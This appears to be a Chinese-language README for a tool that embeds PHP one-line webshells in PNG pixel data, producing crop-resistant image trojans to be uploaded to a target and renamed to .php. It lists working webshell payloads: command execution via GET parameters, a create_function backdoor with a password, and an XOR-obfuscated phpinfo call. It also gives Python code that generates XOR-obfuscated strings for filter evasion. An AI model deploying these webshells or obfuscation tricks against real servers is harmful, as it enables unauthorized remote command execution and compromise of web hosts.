 # ImageWebshell

将一句话木马隐藏到像素颜色中，生成抗裁剪的PNG图片马

除了生成一句话木马之外还支持生成带有任意文本的PNG图片

## 安装

`pip install -r requirements.txt`

## 使用

`python -m image_webshell`，然后将`output.png`传到目标上，后缀改为PHP即可

命令行选项：

- `text`: 指定webshell文本，注意不要使用会被deflate过度压缩的文本（即不要带有重复字符或者连续的小写字母等）
- `width`: 指定图像的宽度，不宜太宽
- `height`: 指定图像的高度
- `output`: 图像保存地址

## 关于自定义文本

项目在其他工具的基础上实现了自定义文本的功能，但是因为PNG算法需要对数据进行deflate压缩，所以需要保证文本可以被deflate生成（也就是存在某一段二进制被deflate压缩后产生所需的文本）

所以文本一般需要满足这些性质：

- 不要带有连续的大小写字母（如`system`）
- 不要带有连续的空格
- 不要过短
- 不能太长

经过测试这些文本是可以的：

- `<?=$_GET[1]($_REQUEST[2]);>`: 传参`?1=system&2=ls`可以执行命令
- `<?=$_GET[0]('',(('0'^'M').$_POST[1].'//'));?>`: 一句话木马，GET传参`?0=create_function`，密码为1
- `<?=("=<)L3=5"^"MTY%][Z")();?>`: phpinfo，其中`"=<)L3=5"^"MTY%][Z"`代表字符串`"phpinfo"`

如上方phpinfo的异或字符串可以用下列简单的python代码生成：

```python
import random

s = "phpinfo"
chrs = [i for i in range(32, 127) if chr(i) not in ["'", '"', "\\", "`"]]
xor_maps = {(a, b): a ^ b for a in chrs for b in chrs}
l = [random.choice([tpl for tpl, c in xor_maps.items() if c == ord(ch)]) for ch in s]
print(f"{''.join(chr(a) for a, _ in l)!r}^{''.join(chr(b) for _, b in l)!r}")
```